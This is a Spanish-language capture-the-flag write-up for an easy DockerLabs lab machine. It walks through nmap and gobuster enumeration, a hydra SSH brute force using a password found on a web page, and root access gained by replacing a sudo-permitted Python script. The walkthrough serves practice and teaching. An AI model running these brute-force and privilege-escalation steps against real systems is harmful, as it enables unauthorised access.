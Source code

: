 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 13:32 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds

```

Vemos que solo hay un servicio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 13:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

Hacemos una búsqueda de directorios en el servicio http:

```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================
```

vamos a ver que encontramos en index.php y nos aparece una web solo con este código html:

```html
<h1>JIFGHDS87GYDFIGD</h1>
```

parece una contraseña, investigando mas la web no encuentro nada mas por lo que vamos a intentar hacer un ataque de fuerza bruta con hydra para la contraseña encontrada y una lista de usuarios en el servicio ssh:

```bash
❯ hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 13:57:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Usando la lista de usernames de SecList encontramos que la contraseña es del usuario carlos.

Vamos a entrar:

```bash
❯ ssh carlos@172.17.0.2
carlos@172.17.0.2s password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
carlos@afc0db7b893d:~$ 

```

Estamos dentro, ahora vamos a enumerar los permisos empezando por los permisos Sudo:

```bash
carlos@afc0db7b893d:~$ sudo -l
Matching Defaults entries for carlos on afc0db7b893d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on afc0db7b893d:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
carlos@afc0db7b893d:~$
```

Encontramos que tenemos permisos root en un archivo python, vamos a ver si podemos escribir sobre el para darnos permisos root:

![scriptpynowritteable.png](assets/scriptpynowritteable.png)

por el mensaje de abajo podemos ver que no podemos sobrescribir el archivo, la funcionalidad que ya hay parece que hace una copia de un archivo a otro pero vamos a borrar el archivo entero y volver a crearlo con el código que deseamos a ver si asi conseguimos que el sistema nos lo ejecute como root:

```bash
carlos@afc0db7b893d:/opt$ rm script.py
rm: remove write-protected regular file 'script.py'? y
carlos@afc0db7b893d:/opt$ ls

#Vemos que ya no existe el archivo

carlos@afc0db7b893d:/opt$ nano script.py

#Aqui dentro del nano asignamos el siguiente codigo
```

![nanoscript.png](assets/nanoscript.png)

Ahora nos queda ejecutar el binario /usr/bin/python3 con la ruta que nos han dado permisos y que hemos cambiado el archivo a ver que resultados da:

```bash
carlos@afc0db7b893d:/opt$ sudo /usr/bin/python3 /opt/script.py
```

Y obtenemos root:

![rootLibrary.png](assets/rootLibrary.png)


